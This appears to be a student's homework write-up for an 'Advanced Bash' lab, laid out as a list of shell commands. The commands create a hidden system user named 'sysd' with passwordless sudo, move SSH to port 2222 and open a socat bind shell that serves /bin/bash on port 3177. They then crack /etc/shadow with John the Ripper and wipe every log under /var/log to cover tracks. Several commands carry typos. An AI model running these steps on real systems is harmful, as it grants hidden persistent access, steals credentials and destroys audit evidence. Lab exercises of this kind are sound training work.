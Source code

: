## Submission for Unit 6 Advanced Bash Homework

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
- useradd --system --no-create-home sysd

Give your secret user a password. 
- sudo passwd sysd

Give your secret user a system UID < 1000.
- useradd --system --no-create-home sysd

Give your secret user the same GID
- useradd --system --no-create-home sysd

Give your secret user full sudo access without the need for a password.
- sudo visduo
- sysd ALL=(ALL) NOPASSWD:ALL

Test that sudo access works without your password
- sudo -l
```bash

## Allow ssh access over port 2222.
nano /etc/ssh/sshd_config
change #Port 22 to Port 2222 in nano.
systemctl restart ssh
```bash

Note the IP address of this system:
- ifconfig
Exit the root accout.
- exit
SSH to the machine using your sysd account and port 2222
- ssh sysd@172.17.149.133 -p 2222
Use sudo to switch to the root user
- sudo su root

### Create a backdoor with socat
- Install socat
  - sudo apt install socat
- Run Socat command in the background
  - socat TCP4-Listen:3177,fork EXEC:/bin/bash
- Explain each part of the `socat` command:
  - socat TCP4-Listen:3177,fork EXEC:/bin/bash
   - socat STDIO TCP4:<Your-VM-IP-address>:3177
   
- Exit the SSH session
  - exit
- Test socat connection from your local machine (after the second socat command)
  - ls 
- Close the `socat` connection.
  - exit

## Crack _all_ the passwords
Ssh back to the system using your sysd account
- ssh sysd@172.17.149.133 -p 2222
- Use John to crack the entire /etc/shadow file
    - cd Documents
    - ls -a
    - john -rules -wordlist=.pass_list.txt
    - john -salts:-2 /ets/shadow

## Cover your tracks
- Use socat and a for loop to clear all system logs.
- socat STDIO TCP4:192.168.47.136:3177
for log in $(ls /var/log); do echo '' > /var/log/${log} ;done 